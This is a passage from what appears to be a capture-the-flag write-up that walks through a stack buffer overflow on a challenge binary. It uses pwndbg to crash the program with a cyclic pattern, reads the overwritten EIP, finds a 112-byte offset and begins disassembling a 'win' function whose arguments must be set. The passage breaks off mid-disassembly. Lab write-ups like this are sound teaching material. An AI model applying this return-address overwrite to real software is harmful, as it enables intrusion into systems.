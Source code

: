 ```
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
pwndbg> r
Starting program: /home/hyperboly/Downloads/bufover2/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x12d
*EBX  0x62616162 ('baab')
*ECX  0xf7e458a0 ◂— 0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x80493f0 (__libc_csu_init) ◂— endbr32 
*EBP  0x62616163 ('caab')
*ESP  0xffffd4e0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac'
*EIP  0x62616164 ('daab')
```

We know we can overflow the EIP, now to find the offset with cyclic lookup because "daab" is a unique pattern in the de-bruijn-sequence.

```
pwndbg> cyclic -l daab
Finding cyclic pattern of 4 bytes: b'daab' (hex: 0x64616162)
Found at offset 112
```

So the offset is at 112, we just have to append the hex of `win`'s address to 112 bytes and we get to `win`.
This isn't the end though, because we have to get `arg1` and `arg2` to match "0xcafef00d" and "0xf00df00d."
So lets check the assembly of `win`.

```asm
pwndbg> disassemble win
Dump of assembler code for function win:
   0x08049296 <+0>:	endbr32
   0x0804929a <+4>:	push   ebp
   0x0804929b <+5>:	mov    ebp,esp
   0x0804929d <+7>:	push   ebx
   0x0804929e <+8>:	sub    esp,0x54
   0x080492a1 <+11>:	call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x080492a6 <+16>:	add    ebx,0x2d5a
   0x080492ac <+22>:	sub    esp,0x8
   0x080492af <+25>:	lea    eax,[ebx-0x1ff8]
   0x080492b5 <+31>:	push   eax
```